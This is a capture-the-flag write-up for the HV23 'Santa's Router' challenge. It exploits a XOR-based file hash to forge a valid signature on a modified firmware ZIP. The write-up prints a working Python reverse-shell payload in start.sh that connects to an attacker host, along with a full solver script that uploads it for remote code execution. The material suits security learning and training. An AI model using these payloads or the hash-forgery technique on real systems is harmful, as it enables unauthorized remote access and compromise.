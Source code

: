 # 13 - Santa's Router

## Description

Level: Medium<br/>
Author: Fabi_07

Santa came across a weird service that provides something with signatures of a firmware. He isn't really comfortable
with all that crypto stuff, can you help him with this?

## Solution

For this challenge we are given a remote server as well as the [challenge source code](santas-router-source.zip).
The server gives us a few options when we connect to it using netcat:

```
help - displays this menu
version - displays the current version of the firmware
update - updates the firmware with the provided signed zip file
exit - exit this shell
```

With `version` we can obtain the signature of the firmware that is currently uploaded. With `update` we can update the
firmware by uploading a Base64 encoded ZIP file as well as its signature.

```python
def verifyAndExtractZipFile(fileContentEncoded: str, signature: str):
    try:
        fileContent = base64.b64decode(fileContentEncoded)
    except binascii.Error:
        print('Invalid Base64 file')
        return
    try:
        if not verifySignature(fileContent, signature):
            print("Signature is invalid")
            return
    except binascii.Error:
        print('Invalid Base64 signature')
        return
    files = zipfile.ZipFile(io.BytesIO(fileContent))
    startFile = [x for x in files.filelist if 'start.sh' in x.filename]
    if len(startFile) == 0:
        print("No start.sh included in the firmware")
        return
    filePath = files.extract(startFile[0], path='./www/root/')
    p = subprocess.Popen(['/bin/sh', filePath], stdout=subprocess.PIPE, stderr=subprocess.PIPE)
    print(f'Update exited with statuscode {p.wait()}')
```

Form the source we can see that if the uploaded file has a correct signature (as checked by `verifySignature`) then
the `start.sh` of the ZIP file is executed. With this we will be able to exfiltrate the flag. The author probably
intended for us to use the statuscode to leak the flag, I decided to get a remote shell instead.

```python
def hashFile(fileContent: bytes) -> int:
    hash = 0
    for i in range(0, len(fileContent), 8):
        hash ^= sum([fileContent[i + j] << 8 * j for j in range(8) if i + j < len(fileContent)])
    return hash


def verifySignature(fileContent: bytes, signatureEncoded: str) -> bool:
    signature = base64.b64decode(signatureEncoded)
    hash = hashFile(fileContent)
    try:
        pkcs1_15.new(KEY).verify(SHA1.new(hex(hash).encode()), signature)
        return True
    except ValueError:
        return False
```

This is the part where the signature is computed. First, the hash of the file is calculated as the XOR value of the
little endian interpretation of 8 byte blocks. Then, the verification happens using PKCS#1 and since we don't have the
private key of the RSA key, we probably won't be able to attack the signature verification itself. The `hashFile`
function, on the other hand, is interesting since we can influence the output. We know that we can use the fact that
XORing a value with itself results in `0`:

```python
hashFile(b'ABCDEFGH' + b'ABCDEFGH') == 0
```

Since we have the original hash of the file, we can simply modify the ZIP file such that the hash does not change.
To do this, we first calculate the expected hash:

```python
def hashFile(fileContent: bytes) -> int:
    hash = 0
    for i in range(0, len(fileContent), 8):
        hash ^= sum([fileContent[i + j] << 8 * j for j in range(8) if i + j < len(fileContent)])
    return hash


data = open("firmware.zip", "rb").read()
print(hashFile(data))
```

With this we obtain the expected hash `2222991296195092273`. Now we can modify the `start.sh` of the ZIP file:

```sh
export RHOST="<IP>";
export RPORT=9001;
python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'
```

This shell script creates a reverse shell in Python. Unfortunately, I lost quite a lot of time here since other reverse
shells didn't work out of the box. Now we can simply pad the ZIP file to a multiple of 8 bytes by adding zero bytes and
finally calculate the missing value to obtain the expected hash:

```python
zip_buffer = io.BytesIO()

with zipfile.ZipFile(zip_buffer, "a", zipfile.ZIP_DEFLATED, False) as zip_file:
    zip_file.writestr('start.sh', b'''
    export RHOST="<IP>";
    export RPORT=9001;
    python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")' \
    ''')


def hashFile(fileContent: bytes) -> int:
    hash = 0
    for i in range(0, len(fileContent), 8):
        hash ^= sum([fileContent[i + j] << 8 * j for j in range(8) if i + j < len(fileContent)])
    return hash


def int_to_bytes(x: int) -> bytes:
    return x.to_bytes((x.bit_length() + 7) // 8, 'big')


content = bytearray(zip_buffer.getvalue())

# Pad the content with zero bytes such that the length is a multiple of 8 bytes
for i in range(8 - len(content) % 8):
    content.append(0)

assert len(content) % 8 == 0

expectedHash = 2222991296195092273
currentHash = hashFile(content)
diff = currentHash ^ expectedHash

magic = int_to_bytes(diff)[::-1]  # reverse due to little endian encoding
content = content + magic

assert hashFile(content) == expectedHash
```

Now we have a ZIP file with some zero bytes as well as some bytes to make the signature identical to the initial
one. Luckily, the ZIP file still extracts without any error and we can upload it to get RCE:

```python
io = remote('<INSTANCE>.rdocker.vuln.land', 1337)
io.recvuntil(b'$')
io.sendline(b'version')
io.recvline()

signature = io.recvline().split(b'Signature: ')[1][:-1]

io.sendline(b'update')
io.sendline(base64.b64encode(content))
io.sendline(signature)

io.interactive()
```

Now, we can just `cat flag` and get `HV23{wait_x0r_is_not_a_secure_hash_function}`. The full solver script can be found
in [solve.py](solve.py).
